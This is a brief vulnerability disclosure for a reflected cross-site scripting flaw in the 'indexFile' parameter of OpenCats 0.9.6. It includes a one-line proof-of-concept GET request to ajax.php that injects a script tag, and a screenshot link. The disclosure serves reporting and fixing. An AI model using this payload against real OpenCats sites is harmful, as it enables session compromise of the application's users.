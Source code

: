 Cross Site Scripting vulnerability in the OpenCats 'indexFile'.

OpenCats version 0.9.6 PHP7.2 suffers from reflected XSS vulnerability. 
This allows attackers arbitrary JavaScript injection, which compromises secure session between client and server.

### PoC
```
GET //ajax.php?f=getPipelineJobOrder&joborderID=1&page=0&entriesPerPage=1&sortBy=dateCreatedInt&sortDirection=desc&indexFile=15)"></a><script>alert`xss`</script>&isPopup=0
```

![XSS4](https://user-images.githubusercontent.com/57464251/192361363-5a9c6b08-7204-4871-84ca-59069930c04f.png)
